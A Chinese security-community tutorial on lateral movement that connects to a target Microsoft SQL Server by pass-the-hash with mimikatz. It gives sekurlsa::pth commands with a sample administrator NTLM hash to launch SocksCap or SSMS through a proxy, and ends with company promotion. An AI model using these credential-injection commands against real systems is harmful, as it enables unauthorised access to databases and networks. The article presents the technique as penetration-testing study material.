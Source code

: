 横向渗透 | 无密码连接SQL Server的姿势
zksmile sechub安全

sechub安全 

微信号 secevery0x01

功能介绍 隶属于SecHub网络安全社区，致力于研究渗透测试、红蓝对抗、应急响应、实战案例、钓鱼社工、和漏洞分析，定期分享实战案例、技术教程、安全工具等前沿网络安全资源。

__发表于

收录于合集 #内网渗透 10个

** 点击蓝字 关注我们**



免责声明

本文发布的工具和脚本，仅用作测试和学习研究，禁止用于商业用途，不能保证其合法性，准确性，完整性和有效性，请根据情况自行判断。

如果任何单位或个人认为该项目的脚本可能涉嫌侵犯其权利，则应及时通知并提供身份证明，所有权证明，我们将在收到认证文件后删除相关内容。

文中所涉及的技术、思路及工具等相关知识仅供安全为目的的学习使用，任何人不得将其应用于非法用途及盈利等目的，间接使用文章中的任何工具、思路及技术，我方对于由此引起的法律后果概不负责。

一、前言
原理：mssql支持Windows身份验证登录（微软工具ssms支持），很多win机器上都是用administrator用户默认安装的，也就是说只要拿到目标administrator用户的hash，就可以利用本地hash注入，通过socks代理直连目标mssql

二、SocksCap
操作流程：用hash注入启动sockscap，把ssms拖到sockscap中启动，连接目标mssql。

分析：为什么要注入启动sockscap，这样在sockscap中启用ssms会自动继承sockscap进程的权限。通过进程分析发现ssms的父进程是sockscap。

1.打开mimikatz，hash注入sockscap
privilege::debug  
sekurlsa::pth /user:administrator /domain:192.168.144.146 /ntlm:518b98ad4178a53695dc997aa02d455c "/run:C:\all\SocksCap64\SocksCap64_RunAsAdmin.exe"  


2.在sockscap中运行ssms


3.输入目标服务器名称，连接即可




4.通过进程分析，发现SSMS的父进程是sockscap
wmic process where Name="SSMS.exe" get ParentProcessId  


三、proxifier
操作流程：打开proxifier。用hash注入启动ssms可连接目标mssql。

分析：sockscap和proxifier的使用方式不同。所以我们只要注入ssms即可。

1.启动proxifier
2.打开mimikatz，hash注入ssms
privilege::debug  
sekurlsa::pth /user:administrator /domain:192.168.144.146 /ntlm:518b98ad4178a53695dc997aa02d455c "/run:C:\all\ssms\Common7\IDE\Ssms.exe"  


3.连接




欢迎关注SecHub网络安全社区，SecHub网络安全社区目前邀请式注册，邀请码获取见公众号菜单【邀请码】

#

**企业简介 **

赛克艾威 - 专注政企安全服务

**
**

   北京赛克艾威科技有限公司（简称：赛克艾威），成立于2016年9月，具有中国网络安全审查技术与认证中心安全风险评估服务三级资质CCRC，信息安全保障人员资质CISAW（安全评估专家级）。
安全评估|渗透测试|漏洞扫描|安全巡检

代码审计|钓鱼演练|应急响应|安全运维

重大时刻安保|企业安全培训



联系方式

电话｜010-86460828

官网｜https://sechub.com.cn



关注我们



公众号： sechub安全

哔哩号： SecHub官方账号

预览时标签不可点

微信扫一扫
关注该公众号

知道了

微信扫一扫
使用小程序

取消 允许
